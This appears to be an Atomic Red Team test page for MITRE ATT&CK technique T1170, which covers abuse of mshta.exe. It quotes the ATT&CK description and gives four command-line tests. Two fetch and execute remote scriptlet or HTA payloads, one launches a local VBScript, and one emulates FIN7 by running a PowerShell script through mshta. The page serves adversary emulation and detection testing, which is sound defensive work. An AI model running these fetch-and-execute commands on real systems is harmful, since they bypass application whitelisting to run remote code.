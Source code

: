 # T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe](#atomic-test-2---mshta-calls-a-local-vbscript-file-to-launch-notepadexe)

- [Atomic Test #3 - Mshta executes VBScript to execute malicious command](#atomic-test-3---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-4---mshta-executes-remote-html-application-hta)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 
```
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```






<br/>
<br/>

## Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe
Tests execution of a local program by a VBScript file called by Mshta
**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file | Create a local VBScript file | path | C:\Temp\mshta_notepad.vbs|


#### Attack Commands: Run with `command_prompt`! 
```
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""{local_file_path}"")(window.close)")
```






<br/>
<br/>

## Atomic Test #3 - Mshta executes VBScript to execute malicious command
Run a local VB script to run local user enumeration powershell command

This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| atomics_path | path to atomics folder | path | ..\..\atomics|


#### Attack Commands: Run with `command_prompt`! 
```
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file $PathToAtomicsFolder\T1170\src\powershell.ps1"":close")
```






<br/>
<br/>

## Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)
Execute an arbitrary remote HTA.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/T1170.hta|


#### Attack Commands: Run with `command_prompt`! 
```
mshta #{hta_url}
```






<br/>
